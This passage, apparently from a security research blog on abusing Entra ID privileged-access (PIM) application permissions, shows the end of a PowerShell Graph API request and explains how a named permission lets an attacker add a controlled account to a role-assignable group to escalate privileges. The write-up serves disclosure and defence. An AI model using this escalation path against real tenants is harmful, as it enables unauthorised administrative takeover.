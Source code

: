 ```
            type = 'afterDuration'
            duration = 'PT24H'
        }
    }
}

$body = ConvertTo-Json -InputObject $activeAssignment
$response = Invoke-WebRequest -Method Post -Uri $uri -Headers $headers -Body $body
$response
```

By executing the above PowerShell script, we can confirm that the [`PrivilegedAccess.ReadWrite.AzureADGroup`](https://learn.microsoft.com/en-us/graph/permissions-reference#privilegedaccessreadwriteazureadgroup) or [`PrivilegedAssignmentSchedule.ReadWrite.AzureADGroup`](https://learn.microsoft.com/en-us/graph/permissions-reference#privilegedassignmentschedulereadwriteazureadgroup) permission can be leveraged to add a controlled user account to a role-assignable group and escalate privileges via the group’s membership:

[![](/assets/images/blog/2024-07-25-abusing-pim-related-application-permissions-part-1/11_screenshot.png)](/assets/images/blog/2024-07-25-abusing-pim-related-application-permissions-part-1/11_screenshot.png)

[![](/assets/images/blog/2024-07-25-abusing-pim-related-application-permissions-part-1/12_screenshot.png)](/assets/images/blog/2024-07-25-abusing-pim-related-application-permissions-part-1/12_screenshot.png)

